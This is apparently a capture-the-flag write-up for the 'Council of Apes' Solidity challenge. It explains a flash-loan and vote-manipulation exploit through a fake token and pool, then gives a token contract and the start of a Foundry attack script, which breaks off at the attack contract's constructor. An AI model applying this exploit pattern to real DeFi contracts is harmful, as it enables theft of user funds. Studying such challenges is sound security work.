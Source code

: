 This was an interesting and a bit of hard chall I would say, It took me more than an half day to understand the code base and solve the challenge. 

To solve the challenge we need to understand the entire code base, how the tokens are deployed, what is our goal, etc.

At an high level our goal is to call the `dissolveCouncilOfTheApes()` function of `CouncilOfApes` contract. To call this function we need to upgrade our user class from `APE` to `GORILLA`. For this we should have more than `1_000_000_000` votes. An `APE` can vote it self with the `balanaBalance`. To get `1_000_000_000` votes we should have `1_000_000_000` bananabalance, but we only have 1. 

To get more bananaBalance we should exchange our `IcyTokens`, But we dont have them. We can get the `FlashLoan` of `IcyTokens`. To get pass the checks in FlashLoan function we should deploy our own Token with totalSupply less than `100_000_000`. And we need to create pool on `IcyExchange` contract. 

After creating a fake custom token and creating a pool we can able to get a FlashLoan of required amount. Then I took flashloan and used those IcyTokens to buy bananaBalance and voted my self to update the class to GORILLA from APE. Then there is way to mint more bananaBalance using `issueBanana()` function then I used `sell()` to exchange bananaBalance with `IcyTokens` and I repayed those tokens back to IcyExchange cause I took flashloan from it.

`MyNewToken.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "../../src/CouncilOfApes/ERC20.sol";

contract MyNewToken is ERC20 
{
    constructor(address owner, string memory name, string memory symbol) ERC20(name, symbol) 
    {
        _mint(owner, 100_000_000);
    }
}
```

`CouncilOfCapesAttack.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./MyNewToken.sol";
import {IcyExchange} from "../../src/CouncilOfApes/IcyExchange.sol";
import {Setup} from "../../src/CouncilOfApes/Setup.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";

contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 10 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}

contract Attack {
    MyNewToken public myToken = new MyNewToken(address(this), "My New H4ck3r Token", "H4CK");
    Setup public setup = Setup(0x821B54EfB659A64d5b0A3145811b290A997705C0);
    IcyExchange public TARGET = setup.TARGET();
    address public _icyToken = address(TARGET.icyToken());

    bytes32 public theEvilWords = keccak256("Kevin come out of the basement, dinner is ready.");

    constructor() payable{
```